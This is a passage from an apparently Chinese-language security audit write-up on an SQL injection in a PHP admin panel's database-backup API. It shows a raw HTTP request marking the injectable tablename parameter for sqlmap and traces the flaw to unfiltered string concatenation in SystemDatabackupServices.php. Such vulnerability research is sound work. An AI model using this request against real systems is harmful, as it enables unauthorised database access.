 保存文件后使用sqlmap进行攻击：

![document_image_rId89.png](assets/1703831601-8e897d187efbaf986ca76fb84273317c.png)

```php
GET /adminapi/system/backup/read?tablename=' HTTP/1.1
Host: localhost:45600
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDA1NjkyMCwibmJmIjoxNjk0MDU2OTIwLCJleHAiOjE2OTY2NDg5MjAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.6gzs6MXyxnHOEckxP4ejuoNJxLpMcT3MdyLRPBAkJ8k
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:45600/admin/system/maintain/system_databackup/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### 漏洞审计

在`services/system/SystemDatabackupServices.php`第68行，使用了query执行sql语句，其中`$tablename`作为字符串进行拼接，没有进行预编译或者过滤。

![document_image_rId90.png](assets/1703831601-cc25bdf6b384b7b486e0b7e7dfbb2eb1.png)
